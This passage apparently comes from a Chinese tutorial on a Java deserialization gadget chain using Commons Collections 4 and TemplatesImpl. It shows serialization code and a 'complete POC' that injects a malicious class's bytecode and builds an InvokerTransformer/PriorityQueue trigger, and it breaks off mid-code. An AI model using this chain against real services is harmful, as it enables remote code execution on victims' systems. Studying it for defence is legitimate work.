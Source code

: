 ```java
```



然后就是序列化和反序列化：

```java
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(queue);
oos.close();

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object object = ois.readObject();
```

运行结果：

![image-20230624154542498](https://raw.githubusercontent.com/todis21/image/main/image-20230624154542498.png)



## 完整POC

```java
package org.example;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class App {
    public static void main(String[] args) throws Exception {
        //构造恶意类TestTemplatesImpl并转换为字节码
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.getCtClass("org.example.Evi");
        byte[] bytes = ctClass.toBytecode();

        //反射创建TemplatesImpl
        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Constructor<?> constructor = aClass.getDeclaredConstructor(new Class[]{});
        Object TemplatesImpl_instance = constructor.newInstance();
        //将恶意类的字节码设置给_bytecodes属性
        Field bytecodes = aClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(TemplatesImpl_instance, new byte[][]{bytes});
        //设置属性_name为恶意类名
        Field name = aClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(TemplatesImpl_instance, "Evi");

        //构造利用链
        InvokerTransformer transformer = new InvokerTransformer("newTransformer", null, null);
        TransformingComparator transformer_comparator = new TransformingComparator(transformer);
        //触发漏洞
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);

```